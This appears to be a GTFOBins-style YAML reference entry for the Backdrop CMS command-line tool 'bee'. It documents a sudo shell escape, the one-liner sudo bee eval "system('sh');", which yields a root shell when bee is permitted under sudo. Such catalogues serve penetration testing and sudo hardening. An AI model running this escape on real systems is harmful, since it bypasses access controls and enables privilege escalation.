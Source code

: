 ```yaml
---
functions:
  sudo:
    - description: For this to work [`bee`](/gtfobins/bee/) must be excuted from the Backdrop CMS root directory (e.g. `/var/www/html`).
      code: |
        sudo bee eval "system('sh');"
---
```

